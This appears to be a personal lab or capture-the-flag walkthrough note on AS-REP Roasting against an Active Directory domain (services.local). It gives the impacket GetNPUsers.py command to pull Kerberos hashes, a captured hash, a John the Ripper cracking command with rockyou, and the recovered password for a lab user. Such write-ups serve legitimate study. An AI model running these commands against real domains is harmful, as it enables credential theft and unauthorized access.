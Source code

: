 ## AS-REP Roasting
AS-REP Roasting is the technique that enables the attacker to retrieve `password hashes for AD users` whose account options have been set to **"Do not require Kerberos pre-authentication"**. This option relies on the old Kerberos authentication protocol, which allows authentication without a password. Once we obtain the hashes, we can try to crack it offline, and finally, if it is crackable, we got a password!


## Performing an AS-REP Roasting Attack against Users List

#Attacking_Machine 
Export AS-REP entries in **John** format.

```
/usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip <MACHINE IP> services.local/ -usersfile users.txt -request -format john -outputfile asreps.john
```

`-request` tells the script to request the TGTs.
`-format john` outputs the hashes in John The Ripper format .
`-outputfile` writes them to `asreps.john`.

![[Screenshot_2025-10-21_05-33-48.png]]

You'll get a hash.

## Cracking Hash

#Attacking_machine 
1. Copy the hash to a file called `hash.txt`.
```
echo "$krb5asrep$j.rock@SERVICES.LOCAL:d3806d33a6a4b744bfa1443aad9136e1$685d4b94ead269c32f6a2e29ba4ddca3cbbb975ea70073e820fd15f15c7b88e11f2a35d8b3cdded4c41122c03fb546a4ae1a8cb49e77b7509b4e898f0464923f5232a3dfd95b7160e101dfae75be56c2023af6357ee1efd2af81b39294f4136a4cbc958780753e7cd943c5b4a4ce7c08dc28140c36916b02696ba34b655eaa3aebbf3490113dcbe14e327ca3f489508d75351fdf53c8f71a3fe3a6a14dfd708640ce6be9b580b730e3b665ec50f948986edfcd8188d5da0b2f48eafbb83846ec783bb0d010f76f1c9ba246f8877bd31efa51518f91098b04435ce66fad16107898061d5dbb64a229aa3998c5a8cbf66c
" > hash.txt
```

2.  Run this command to crack the hash with John the Ripper.


```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![[Screenshot_2025-10-21_06-11-43.png]]

Credentials:

`j.rock@SERVICES.LOCAL:Serviceworks1`

**Next step:** [[Connecting the Machine]]

